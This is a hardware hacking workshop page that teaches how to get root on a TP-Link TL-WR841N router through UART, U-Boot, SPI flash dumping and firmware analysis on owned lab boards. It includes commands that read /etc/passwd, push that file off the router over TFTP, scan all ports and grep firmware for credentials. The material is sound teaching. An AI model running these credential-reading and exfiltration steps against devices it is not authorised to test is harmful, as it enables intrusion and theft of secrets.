


Nine times out of ten it's TX/RX swapped. Flip the two signal wires. Also confirm a common ground between adapter and board, and that the baud is 115200. If the board never boots while the adapter is attached, you probably wired VCC. Disconnect it; the board is self-powered.
HACK THE
ROUTER
Take a ten-euro router apart until it gives up a root shell: find the debug pads, break in over UART, and lift its firmware straight off the flash chip. A hands-on hardware hacking workshop by Warpnet, built around the TP-Link TL-WR841N v14.20 and v14.0.


The full kit, and a TL-WR841N cracked open with a logic analyzer on its UART header.
Your trainers
This workshop is led by two trainers. Grab either of them if you get stuck, and connect afterwards:
-
Roald Nefs CTO at Warpnet and Enlite
10+ years in cybersecurity and platform engineering, after a decade of SRE and DevOps across the Dutch public sector. He builds security that engineers don't have to fight against. Off the clock he speaks at BSides and PyGrunn, organises BSides Groningen, BSides Amsterdam, Cloud Native Groningen, and Cloud@Rijksoverheid, and contributes to open source. Hardware hacking is a personal favourite.
LinkedIn · roaldnefs.com -
Jordi Trainer
Bio to be added.
LinkedIn
What is hardware hacking?
Hardware hacking is getting a physical device to do things its makers never meant to expose, by going in through the board itself instead of the polished interface on the outside. Where software hacking works over the network and the app, hardware hacking works at the level of chips, buses, and solder pads: you open the case, find the debug pins and memory chips the manufacturer left behind, and talk to them directly.
It works because cheap consumer electronics take shortcuts. Vendors leave debug interfaces live for their own factory testing, store firmware on unencrypted flash, and bake default credentials straight into the image. Every one of those is a way in.
The usual ways in
- UART
- A serial console that usually prints the boot log and often drops straight to a root shell, the friendliest first foothold.
- JTAG / SWD
- Chip-level debug ports: halt the CPU, read and write memory, single-step the firmware.
- SPI / flash
- Clip onto the flash chip and read the entire firmware off it, byte for byte, whether the OS wants to show it or not.
- Firmware
- Unpack that image to hunt for keys, passwords, and backdoors hiding in the code and config.
People do this for security research (most IoT gear has barely been looked at), for repair and reuse, to run open firmware like OpenWrt, or just to learn how the devices around them really work. The one rule that never bends: only ever hack hardware you own or are explicitly authorised to test.
First time? Start here
Most cheap home routers are full Linux computers hiding in a plastic box: a CPU, some RAM, a flash chip holding the firmware, and a few debug pads the manufacturer forgot to lock down. In this workshop you'll talk to that hidden computer directly: reading its serial console, dumping its flash, and pulling the firmware apart to see how it really works.
Why a router?
A budget SOHO router is the perfect first target. It's cheap (a tenner second-hand), it can't hurt you, and it makes almost every classic beginner mistake: an unlocked UART that drops you to a root shell, an unencrypted SPI flash you can read with a clip, and a stock Linux userland full of interesting files. Brick it? Re-flash it from the SPI dump and start over. Worst case you're out a ten-euro router.
Your target: TP-Link TL-WR841N v14.0 & v14.20
A wildly common 300 Mbps N router. Both v14 boards run the same MediaTek MT7628 SoC with SPI NOR flash and some RAM, booting U-Boot into a Linux firmware. That's the whole stack you'll pull apart in this workshop. What sets the two revisions apart isn't the silicon, it's the firmware.
The older build on the v14.0 boards drops the serial console straight to a BusyBox root shell. The current build on the v14.20 boards has that console locked, and its anti-rollback protection won't let you downgrade back to the older, chattier firmware. So the two revisions are a live "before & after" of TP-Link closing the console, and they lead to two different ways in.
I ordered two of these routers from the same webshop a few weeks apart, expecting identical boards. They turned up as different hardware revisions, days before this workshop. So we re-prepped a batch of the older revisions we'd used before, so you can still tackle every challenge across both boards. Looking forward to seeing whether you can solder the header pins more neatly than the previous participants did.
Roald Nefs · CTO at Warpnet and Enlite
The loop you'll repeat
- 01
- Recon · OSINT the model: FCC filings, datasheets, stock firmware.
- 02
- Open · screwdriver off the case, eyes on the board.
- 03
- Probe · multimeter + logic analyzer to find the debug pads.
- 04
- Interface · solder a header, talk UART, get a shell.
- 05
- Extract · TFTP files out, or clip the flash and dump it.
- 06
- Analyze · binwalk the image, hunt for secrets.
// Don't memorise this
This page is a tour, not a textbook. It's the intro to the workshop; the hands-on challenges pick up where it leaves off. Skim what you need and come back later.
Your kit
At your station you'll find two TL-WR841N target boards (a v14.0 and a v14.20), a host laptop, and the following tools. Grab what a challenge calls for. The older v14.0 board has already been prepped by earlier workshop participants, with its UART header soldered on, so you can connect straight to its unlocked console and land a shell. The v14.20 board is stock, with its console locked, and that's the one you'll work to get into.
| Tool | What it's for |
|---|---|
| CP2102 USB-UART adapter | Bridges the board's 3.3V serial console to a USB port → your terminal |
| Digital multimeter | Continuity to find GND; DC volts to spot VCC, identify the UART pads |
| Logic analyzer (8CH, 24MHz) | Confirm which pad is TX by watching it chatter on boot; decode the UART |
| CH341A USB programmer | Reads/writes the SPI flash chip directly via a SOIC-8 clip |
| Screwdriver | Open the case; there's usually a screw hiding under a rubber foot or label |
| Male header pins | Solder into the UART pads so you can attach jumper wires cleanly |
| Soldering station | Tack the header pins in place, a few clean joints, not a sculpture |
| Jumper wires | Connect adapter ↔ board (Dupont F-F are handy for headers) |
⚠ Disclaimer
Educational purposes only. These are lab boards you're allowed to break. Only hack hardware you own. The board runs on 3.3V logic. The CP2102's TX and the CH341A's data lines can be 5V, which will damage the SoC or flash. Never connect the adapter's VCC line to a board that already has its own power. Ask a volunteer if you're unsure.
Further reading
Two OWASP methodologies formalise what this workshop does by hand. Use them as a map when you want to go deeper or run a structured assessment of your own.
- ISTG
- OWASP IoT Security Testing Guide · methodology and concrete test cases for security-testing IoT devices, covering the hardware, firmware, and interfaces you'll meet here.
- FSTM
- OWASP Firmware Security Testing Methodology · a nine-stage process for firmware assessments: extract, analyse, emulate, and exploit.
What's next
The workshop runs in three sections, roughly top to bottom, since each one builds on the last:
- 1
- Initial recon & OSINT · FCC ID, chip identification, datasheets, stock firmware, and a first look at what's listening on the network.
- 2
- UART shell & live enumeration · wire up the serial console, defeat the write protection, and land an interactive root shell.
- 3
- SPI & firmware extraction · clip the flash, dump it byte for byte, and take the image apart with binwalk.
// Ready?
Grab your board, check your kit against the list above, and read the disclaimer once more. When you're set, the first section starts with turning the router over and reading its label.
Section 1 // Initial recon & OSINT
Before you pick up a screwdriver, learn everything the internet already knows about this box. Then open it up and read the board. Tick each task off as you clear it; your progress is saved on this device.
Challenge 01 // Hardware OSINT & FCC ID
Any device with a radio sold in the US has to be certified by the FCC and carries an FCC ID, and the FCC publishes the manufacturer's filing: external photos, RF test reports, and user manuals. This router has Wi-Fi, so it qualifies. Flip it over and start with the label, then look the ID up on fcc.io or fccid.io. TP-Link's grantee code is 2AXJ4.
Challenge 02 // Identify the chips
Open the case and read the board like a map. Three chips matter: the SoC (the CPU), the SPI flash (where the firmware lives), and the RAM. Each has its part number printed on top, so a phone torch and a macro photo help.
Challenge 03 // Locating & reading datasheets
A part number is a key. Search it and you get the datasheet, the chip's own manual. For the flash you want pin 1, the operating voltage, and the READ opcode. For the SoC you want the UART pins, which is where you'll solder in the next section.
Challenge 04 // Network setup
Power the router up on the bench and get onto its LAN. Out of the box it's a DHCP server, so reach the admin UI at http://tplinkwifi.net or its IP 192.168.0.1. You'll need this to attempt the firmware downgrade in the next challenge.
Challenge 05 // Locating the firmware online
You don't have to extract the firmware to start reading it: TP-Link hands it out. The Download Center has the stock .bin, locked to both region and hardware revision, so match your exact board (v14.0 or v14.20).
Challenge 06 // NMAP scans
What's actually listening? Point nmap at the router. Don't stop at the default 1000 ports: scan the full range, then fingerprint the services behind the open ones.
# full TCP sweep + service/version detection nmap -p- -sV 192.168.0.1
Section 2 // The debug port
Time to talk to the hidden computer directly. Most of these boards expose a small UART header the manufacturer used on the factory line: four pads for GND, VCC, TX, and RX. Find it, work out which pad is which, and solder a header on so you can wire up an adapter.
// Two-board note
The prepped v14.0 board already has its header soldered on by earlier participants, so use it to locate and verify the pads. If you want the soldering practice, do it on the v14.20 board.
Challenge 07 // Locate the debug port & solder a header
The board exposes four pads in a row. Work out which is which: GND shows continuity to a known ground (multimeter, continuity mode), VCC sits at a steady 3.3V, TX flickers with data the instant the board boots (catch it with a logic analyzer, or a multimeter twitching on DC volts), and whatever's left is RX. Then solder header pins on so jumper wires attach cleanly.
⚠ 3.3V logic
These pads are 3.3V. Keep that in mind before you connect anything in the next challenge: feeding 5V into the UART can kill the SoC.
Challenge 08 // Capture the boot with a logic analyzer
The cheap 8-channel analyzers in the kit speak the open sigrok protocol, driven from PulseView. Watching the UART with one does two things at once: it confirms which pad is TX (it bursts into life the instant the board prints) and it hands you a waveform you can measure and decode. This is how you find TX without guessing, and how you read the console even before an adapter is wired up.
- 1
- Wire one channel (say CH0) to the candidate TX pad, and the analyzer's GND to board GND. Leave VCC alone; the board powers itself.
- 2
- In PulseView, select the
fx2lafwdevice, set the sample rate to 1 MHz or higher, and a capture window of a few seconds. - 3
- Hit Run, then power-cycle the router. TX explodes into a wall of pulses the moment U-Boot starts talking; an idle line just sits high.
Challenge 09 // Decode the UART in PulseView
A waveform isn't a boot log yet. Measure the bit timing to pin down the baud rate, then let PulseView's UART protocol decoder turn the pulses back into text.
- 1
- Zoom into one burst and measure the narrowest pulse (a single bit). The baud rate is roughly
1 / bit_width; at 115200 a bit is about 8.68 µs. - 2
- Add the UART decoder (the protocol-decoder icon): set your channel as RX, baud 115200, 8 data bits, no parity, 1 stop bit (8N1).
- 3
- Read the decoded ASCII along the trace. You should see the U-Boot banner and the kernel boot messages scroll past.
Challenge 10 // Open and read the serial console
Now talk to the board with the CP2102 adapter and read the console live. Cross the data lines, share a ground, and leave VCC alone (the board powers itself). Set the adapter jumper to 3.3V, never 5V.
| CP2102 pin | Board pad | Note |
|---|---|---|
| RX | TX | board output goes to adapter input |
| TX | RX | adapter output goes to board input |
| GND | GND | common ground, required |
| 3V3 | VCC | ✗ do not connect, the board is self-powered |
Open a terminal at 115200 8N1, then power-cycle the board and watch the full boot log: bootloader version, memory map, flash partition offsets, and which services start.
# Linux picocom -b 115200 /dev/ttyUSB0 # macOS: picocom -b 115200 /dev/tty.usbserial-XXXX # Windows: PuTTY / Tera Term → COMx @ 115200 8N1
Challenge 11 // Drop to the U-Boot prompt
Reading the boot log is passive. Now interrupt it. U-Boot prints a short countdown at startup, so mash a key during that window and it drops you to the bootloader prompt, MT7628 #. On the v14.20 board this is as far in as you get: the current firmware won't hand you a shell, but the bootloader underneath is still wide open.
# mash a key during the boot countdown to interrupt autoboot MT7628 # printenv # boot args, bootcmd, flash layout MT7628 # help # every command this build supports
Now look at what that gives you. A bootloader sits below the operating system with full access to the hardware: it can read and write memory and flash, change the boot arguments, and pull a whole image over the network with TFTP. That's a lot of leverage before the OS has even started.
Challenge 12 // Grab a v14.0 and land a BusyBox shell
The v14.20 board stops at the bootloader. For an interactive OS shell, switch to a v14.0 board: its older firmware boots straight past login and drops you onto a BusyBox root shell on the serial console, with no password and no lockout. Same wiring, same 115200 8N1, different board.
These boards carry a console write protection: a pull-down resistor, R18 (about 1 kΩ on these v14 boards), sits on the UART RX line and holds it low, so keystrokes never rise high enough to register and the board ignores what you type. On your board it has already been desoldered, so input works. Use the photo to find where R18 sits and confirm it's gone.

Challenge 13 // Explore the shell
You're root on a live embedded Linux box. Have a look around: who you are, what you're running on, and what the firmware left lying in the filesystem.
id # you should be root (uid=0) uname -a # kernel version and architecture cat /etc/passwd # accounts and password hashes
The web UI ships as files on the box too. Go find its source: the HTML, JS, and CGI that render the admin pages live in the rootfs, often under /web or /www.
Challenge 14 // Exfil files over TFTP
A shell is nice, but get the files off the box. The BusyBox userland ships a tftp client, so stand up a TFTP server on your laptop and push files to it: no SD card, no USB, just the network.
# on your host: serve a directory over TFTP (one option) sudo dnsmasq --enable-tftp --tftp-root=/srv/tftp -d # on the router shell: push a file to your host (-p put, -l local file) tftp -p -l /etc/passwd 192.168.0.100
Section 3 // SPI dump & firmware
The UART gave you a running filesystem. The SPI flash gives you everything: bootloader, kernel, rootfs, and config, byte for byte, whether the OS wants to show it or not. Clip onto the flash chip with the CH341A, read it, then take the image apart.
Challenge 15 // Dump the SPI flash
Clip the CH341A onto the SOIC-8 flash chip and read it. These boards use a 4 MB (32 Mbit) part, the EN25QH32B. Line up pin 1 (the dot on the chip) with pin 1 of the clip, then verify the programmer sees the chip before you read.
# verify the programmer sees the chip sudo flashrom -p ch341a_spi -c "EN25QH32B" # read the full 4 MB twice, then compare sudo flashrom -p ch341a_spi -c "EN25QH32B" -r dump1.bin sudo flashrom -p ch341a_spi -c "EN25QH32B" -r dump2.bin sha256sum dump1.bin dump2.bin # must match (macOS: shasum -a 256)
// Why the hashes may not match
The CH341A can back-power the board through the flash chip, so the SoC keeps running and touches the flash while you read. Two reads can then differ in SHA even when both "succeed". For a truly clean, repeatable dump you would desolder the flash and read it off-board. On the bench, read a few times and trust the value that repeats.
This is exactly how we revived the dead boards. We read the firmware straight off a still-working router with the programmer, then wrote that same image back onto a bricked one. A CH341A reads and writes, so a SPI dump doubles as a restore, and that's how half the v14.0 boards in this room are still alive.
Jordi · Trainer
Challenge 16 // Map the flash image
You have a raw 4 MB image. Take it apart with binwalk: it spots the bootloader, the kernel, and the root filesystem, and can carve them out. The layout is a tell between the two revisions.
# survey the image layout binwalk dump1.bin # carve out everything binwalk recognises binwalk -e dump1.bin
On the v14.0 image, binwalk finds a mountable SquashFS root filesystem you can carve and browse. On the v14.20 image there is no tidy SquashFS: instead you'll find a large LZMA stream, since the newer firmware packs the rootfs differently. Spotting that difference is the point.
Challenge 17 // Decompress the v14.20 firmware
On the v14.20 image there is no SquashFS to mount. The firmware is a raw LZMA blob in the old .lzma (LZMA_ALONE) format: a properties byte (0x6E), then a 4-byte dictionary size and an 8-byte uncompressed size. Carve from that header and decompress it. It expands to about 4 MB: the kernel and userland packed into one monolithic image.
python3 - <<'PY' import lzma d=open('dump1.bin','rb').read() out=lzma.LZMADecompressor(format=lzma.FORMAT_ALONE).decompress(d[0x25080:]) open('fw.bin','wb').write(out); print(len(out),'bytes') PY strings -n 6 fw.bin | grep -iE "mt7628|firmware|config" | head
The web UI sits in its own LZMA block further into the image. Carve from its offset and decompress it to pull the UI out on its own.
python3 - <<'PY' import lzma d=open('dump1.bin','rb').read() out=lzma.LZMADecompressor(format=lzma.FORMAT_ALONE).decompress(d[0x164BE4:]) open('ui_block.bin','wb').write(out); print(out[:200]) PY
Challenge 18 // Hunt for secrets
The firmware you just decompressed is full of secrets, though not the easy kind. Credentials live in TP-Link's encrypted, compressed config, so there is no plaintext /etc/shadow to grep here. But the image is littered with tells: the config-crypto routines, default Wi-Fi PSKs, admin and superadmin handling, telnet references, and the anti-rollback version check that rejected your firmware downgrade back in Challenge 05.
strings -n 5 fw.bin | grep -iE "password|admin|superadmin|telnet|WPAPSK|encrypt|decrypt config" | head -30 strings -n 5 fw.bin | grep -iE "version.*bigger than current|config reset" # the anti-rollback check
Recap
Step back and look at what you just did. You took a sealed consumer router and walked it down every layer: you OSINT'd the model and read the board, talked to it over UART and caught it at the U-Boot prompt, dropped into a live BusyBox shell on the older revision, then clipped the flash, dumped it byte for byte, and pulled the firmware apart. That is the whole hardware-hacking loop, start to finish.
What hardware hacking really is
None of this needed a zero-day. It worked because the same shortcuts show up in almost every embedded device: debug interfaces left live from the factory, storage you can read straight off the board, and secrets baked into the image. Find the layer the vendor forgot to lock, and the rest follows.
- Recon
- Everything the internet already knows: FCC filings, datasheets, chip markings, and the vendor's own firmware downloads.
- Interface
- UART for a console and a bootloader, JTAG for the CPU, SPI for the flash. The debug pads are the way in.
- Extract
- A shell gives you the running system; a flash dump gives you everything, byte for byte, whether the OS wants to show it or not.
- Analyze
- Carve, decompress, and grep the image for the crypto, the credentials, and the checks that hold it together.
The two board revisions were the real lesson. Same silicon, one firmware change: the v14.0 hands you a root shell, the v14.20 locks the console and blocks downgrades. That is security as a moving target, and watching a vendor close a hole in real time teaches more than any single exploit. The tools stay the same; only the difficulty moves.
// Take it further
Every device around you is a version of this box. Pick a cheaper, weirder target next time, and remember the one rule that never bends: only ever hack hardware you own or are explicitly authorised to test.
Your score
// Total points captured
0
/ 0 pts
🔓
Firmware Overlord
// All objectives captured. The router is yours, byte for byte.
Troubleshooting
Console connects but shows nothing (or freezes on boot)
Boot log is garbled / random characters
That's a baud mismatch. These boards are 115200 8N1. Garbage that's rhythmic with the boot is almost always the wrong baud, not bad wiring.
The console won't accept anything I type
Expected on the v14.20 board: its firmware keeps the console locked. Reading works, writing doesn't. That's the whole point of the two-board setup: for an interactive shell, use the prepped v14.0 board, whose older firmware drops straight to BusyBox. The v14.20's anti-rollback protection won't let you downgrade it to the chattier build.
flashrom can't find the chip / reads all 0xFF or 0x00
The clip isn't contacting every pin. Reseat it and check pin 1 alignment (the dot on the chip). Power the board off before dumping; a powered board fights the programmer. If flashrom sees the chip but the reads look wrong, suspect the CH341A's 5V data-line flaw and use a 3.3V-safe programmer.
I want to do this at home
The whole kit lands around €40 to €70: a TL-WR841N (or any cheap junk-drawer router) for a tenner, a CP2102 adapter and a CH341A programmer with a SOIC-8 clip for a few euro each, and a basic multimeter. A cheap 8-channel logic analyzer is optional but makes finding TX painless. Everything else (binwalk, flashrom, nmap, picocom) is free.
Going deeper
Once you've cleared the challenges, here's where to take it next.
- binwalk · carve and analyse the firmware image you dump.
- flashrom · read and write SPI flash chips over the CH341A.
- fcc.io · FCC ID lookups: photos, test reports, and filings.
- OpenWrt · TL-WR841N device page · hardware reference for the family (note: the v14's small flash is below OpenWrt's current minimums).
- The Hardware Hacking Handbook · van Woudenberg & O'Flynn, for the theory behind all of this.
Brag about it
Popped a shell, dumped the flash, earned a rank? Post about it and tag us.